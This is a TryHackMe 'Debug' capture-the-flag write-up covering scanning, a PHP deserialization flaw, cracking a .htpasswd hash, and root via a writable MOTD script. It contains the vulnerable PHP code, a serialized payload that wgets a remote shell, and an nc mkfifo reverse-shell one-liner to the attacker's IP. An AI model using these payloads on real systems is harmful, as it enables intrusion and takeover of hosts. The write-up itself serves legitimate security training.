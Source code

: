 
[TryHackMe Link](https://tryhackme.com/room/debug){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 11"
    # Nmap 7.93 scan initiated Sat Nov 18 10:58:51 2023 as: nmap -sC -sV -O -oN nmap.sh 10.10.155.251
    Nmap scan report for 10.10.155.251
    Host is up (0.38s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 44ee1eba072a5469ff11e349d7dba901 (RSA)
    |   256 8b2a8fd8409533d5fa7a406a7f29e403 (ECDSA)
    |_  256 6559e4402ac2d70577b3af60dacdfc67 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=11/18%OT=22%CT=1%CU=36574%PV=Y%DS=5%DC=I%G=Y%TM=6558DF
    OS:68%P=aarch64-unknown-linux-gnu)SEQ(SP=109%GCD=1%ISR=10A%TI=Z%II=I%TS=A)S
    OS:EQ(SP=109%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST
    OS:11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=6
    OS:8DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M
    OS:508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
    OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
    OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
    OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
    OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

    Network Distance: 5 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sat Nov 18 10:59:36 2023 -- 1 IP address (1 host up) scanned in 45.84 seconds

  ```

## <b>Enumeration</b>

In the initial exploration, I visited the default HTTP port 80 and encountered a website displaying the typical Apache welcome page. 

<img id="image1" />

Then, I used the feroxbuster tool for directory enumeration that revealed a hidden directory named **backup** within the `/html` directory.

<img id="image2" />

Within this directory, I discovered a backup file containing `PHP` and HTML-related files. 

<img id="image3" />

I smelled a rat particularly around a PHP file hinting at a `PHP deserialization` vulnerability. Analyzing the code, I identified a PHP class associated with an HTML form comprising two variables, namely `form_file` and `message`.

```php linenums="1" hl_lines="21-24"
<?php

class FormSubmit {
public $form_file = 'message.txt';
public $message = '';
public function SaveMessage() {
$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];
	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";
}

public function __destruct() {
file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';
}

}

// Leaving this for now... only for debug purposes... do not touch!
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);
$application = new FormSubmit;
$application -> SaveMessage();
?>
```

This code segment caught my attention, as it attempted to unserialize an object based on user input from the GET parameter.

```php
$debug = $_GET['debug'] ?? ''; 
$messageDebug = unserialize($debug); 
```

Further examination revealed a **destructor** function executed during termination, creating or appending a file on the web server. This showed a classic insecure object serialization vulnerability.

## <b>Initial Access</b>

I crafted a **payload.php** with same PHP class and variables, and I created a system command to download a reverse shell from my Python server.

```php
<?php

/**
 * 
 */
class FormSubmit
{
	public $form_file = 'file.php';
	public $message = '<?php system("wget http://10.17.3.217:8000/shell.php -O shell.php") ?>';
}
$obj = new FormSubmit();
echo serialize($obj);

?>
```

Upon executing this PHP file, I obtained its associated serialized object. 

```s
O:10:"FormSubmit":2:{s:9:"form_file";s:8:"file.php";s:7:"message";s:70:"<?php system("wget http://10.17.3.217:8000/shell.php -O shell.php") ?>";}
```

The website had a form request and Using Burp Suite, I intercepted the form request and customised debug parameter to my requirements. 

<img id="image4" />

Injecting the serialized payload into the `debug` parameter, the object was deserialized, extracting the values of **form_file** and **message** I provided.

<img id="image5" />

<img id="image6" />

Assuming that `file.php` was already created, I accessed the file while listening on my end, immediately got a reverse shell. 

```
http://10.10.155.251/file.php
```

<img id="image7" />

## Privilege Escalation

### Gaining user access (James)

The current user was identified as `www-html`. Seeking to escalate privileges, I explored the **/home** directory and discovered a user named `james`. Running linpeas.sh and inspecting hidden files, I located `.htpasswd`, containing James's password hash. Using hashcat, I successfully decrypted the password.

```
james:$apr1$zPZx2A{--REDACTED--}3b9UTt9Nq1
```

Closing the current shell, I logged in via the SSH service on port 22, finding the **user.txt** flag. 

### Gaining root access

Subsequently, my focus shifted to elevating privileges to root. A note in the system: `Note-To-James.txt` hinted at a custom SSH banner. 

```
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

rootv
```

Researching online, I discovered that modifying the **MOTD** file in the `/etc/` directory could achieve this. Upon locating the motd file, identified as executable and writable, I appended a reverse shell code, ultimately achieving root access!

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.17.3.217 5432 >/tmp/f
```

<img id="image8" />

<script>

// JSON object
const data = {
    "desc": "Linux Machine CTF! You'll learn about enumeration, finding hidden password files and how to exploit php deserialization!",
    "ip":  "10.10.155.251",
    "ports": "22/tcp,ssh,OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux protocol 2.0);80/tcp,http,Apache httpd 2.4.18 ((Ubuntu))",
    "difficulty":"medium",
    "id": "5"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>